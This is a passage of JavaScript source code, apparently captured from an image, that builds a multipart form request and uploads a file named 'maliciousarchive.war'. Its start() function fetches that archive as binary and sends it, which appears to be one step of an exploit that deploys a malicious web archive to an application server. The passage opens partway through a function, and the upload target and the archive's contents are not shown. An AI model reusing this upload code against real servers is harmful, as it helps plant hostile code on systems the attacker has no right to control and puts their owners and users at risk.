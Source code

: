 ```js
    }

    var body = "";

    for (var i in additionalFields) {
      if (additionalFields.hasOwnProperty(i)) {
        body += addField(i, additionalFields[i], boundary);
      }
    }

    body += addFileField(fileFieldName, fileData, fileName, boundary);
    body += "--" + boundary + "--";
    xhr.sendAsBinary(body);
    return true;
}

function addField(name, value, boundary) {
  var c = "--" + boundary + "\r\n"
  c += 'Content-Disposition: form-data; name="' + name + '"\r\n\r\n';
  c += value + "\r\n";
  return c;
}

function addFileField(name, value, filename, boundary) {
    var c = "--" + boundary + "\r\n"
    c += 'Content-Disposition: form-data; name="' + name + '"; filename="' + filename + '"\r\n';
    c += "Content-Type: application/octet-stream\r\n\r\n";
    c += value + "\r\n";
    return c;
}

function getBinary(file){
  var xhr = new XMLHttpRequest();
  xhr.open("GET", file, false);
  xhr.overrideMimeType("text/plain; charset=x-user-defined");
  xhr.send(null);
  return xhr.responseText;
}

function readBinary(data) {

var tmp = '';
    for (var i = 0; i < data.length; i++) tmp += String.fromCharCode(data.charCodeAt(i) &
0xff);
    data = tmp;
    return tmp;
    }

function start() {
  var c = getBinary('maliciousarchive.war');
  fileUpload(c, "maliciousarchive.war");

}
```

